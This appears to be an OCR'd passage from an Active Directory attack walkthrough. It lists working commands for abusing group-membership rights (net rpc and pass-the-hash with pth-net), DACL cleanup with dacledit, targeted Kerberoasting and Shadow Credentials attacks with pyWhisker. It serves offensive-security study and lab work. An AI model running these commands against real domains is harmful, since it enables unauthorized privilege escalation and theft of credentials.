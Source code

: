 **Adding to the group**

You can now add members to the group.

Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

```bash
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

```bash
pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

	Finally, verify that the user was successfully added to the group:

```bash
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

**Cleanup**

Impacket's dacledit can be used for that purpose (cf. "grant rights" reference for the link).

```bash
dacledit.py -action 'remove' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
```

### Management_Svc User (GenericWrite)

**Targeted Kerberoast**

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

**Shadow Credentials attack**

To abuse this permission, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```

For other optional parameters, view the pyWhisker documentation.
